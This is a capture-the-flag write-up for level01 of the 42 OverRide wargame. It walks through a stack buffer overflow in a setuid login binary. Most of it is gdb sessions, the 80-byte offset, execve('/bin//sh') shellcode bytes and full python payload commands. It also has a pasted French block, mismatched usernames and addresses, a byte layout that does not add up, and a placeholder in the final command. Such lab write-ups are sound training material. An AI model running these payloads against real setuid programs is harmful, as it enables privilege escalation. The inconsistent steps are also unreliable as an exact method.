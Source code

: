 # 1st Step
  
List the files will show us `level01` executable
```
level01@OverRide:~$ ls -l
total 8
-rwsr-s---+ 1 level02 users 7360 Sep 10  2016 level01
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: bla
verifying username....

nope, incorrect username...

level01@OverRide:~$
```
The program waits for a username/password and exit if it's not good.  
After analyze it with gdb we can find three interesting functions : `main()`, `verify_user_name` and `verify_user_pass`.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-OverRide/blob/main/level01/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-OverRide/blob/main/level01/source.c) for more details.  
A first read of ASM code allows us to see that function `verify_user_name` compares the user name to "dat_wil" and function `verify_user_pass` compares password to "admin".  
By looking closely to the code we can see that finding the password won't help us! Since there is no calls to `/bin/sh`, we can assume we'll have to use a shellcode this time.  
We'll have to write over `eip`, so first get the offset :
```
(gdb) run
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
Thanks to the pattern generator we found an offset of 80.  
As the program use `fgets()` function we should not be able to make a buffer overflow but `fgets()` take a max string of 100 chars wich is more than the offset of `eip`.  
```
On constate que le deuxieme fgets lit 100 bytes alors que le buffer n'en fait que 64, on peut donc exploiter l'overflow pour reecrire la valeur d'eip et injecter un shellcode.
Il faut cependant faire attention a donner un username de 256 caracteres au premier fgets.
Si le username est plus court, alors notre shellcode (situe en principe dans le password) va se faire absorber par le username.
Si le username est plus long, il va deborder sur le password et donc decaler notre shellcode.

Pour ajuster l'adresse de notre payload, on utilise ltrace qui va nous donner l'adresse du buffer dans lequel est stocke le password :
fgets(" \220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\2201\300Ph/"..., 100, 0xf7fcfac0) = 0xffffd6bc

On utilise le payload suivant :
echo $(python -c 'print "dat_will" + "A"*247 + "\n" + "\x90" * 26 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*30 + "\xbd\xd6\xff\xff"') > /tmp/test
(cat /tmp/test; cat -) | ./level01
```

## Create our exploit
*shellcode found [here](http://shell-storm.org/shellcode/files/shellcode-827.php)*  
In order to store our shellcode, we can use environment variables :
```
level01@OverRide:~$ export SHELLCODE=`python -c 'print "\x90" * 50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`
level01@OverRide:~$ env | grep SHELLCODE
SHELLCODE=��������������������������������������������������1�Ph//shh/bin��PS��
                                                                                ̀
level01@OverRide:~$
```
Find its address with gdb and add some bytes to the address founded in order to jump into the nop sled :
```
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
[...]
  0x0804856d <+157>:	lea    eax,[esp+0x1c]    // buffer start
[...]
(gdb)  b *main+157
Breakpoint 1 at 0x804856d
(gdb) run
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:

Breakpoint 1, 0x0804856d in main ()
(gdb) x $ebp-0x1008
0xbfffe680:     0x00000000
(gdb)
```
Our input will be as follow :
bytes 0-7: "dat_wil", to pass the `verify_user_name` function.
byte  8: '\n', so that the first `fgets` stops taking user input
bytes 9-89: padding (80 to overwrite EIP with the next 4 bytes) 
bytes 90-94: 0xffffd668 + 20 => 0xffffd67c (sometimes, gdb will give us a wrong address so that's why we added nop sled in the environment variable SHELLCODE)

(python -c 'print "dat_wil" + "\n" + "a" * 80 + "address shellcode reversed"'; cat) | ./level01
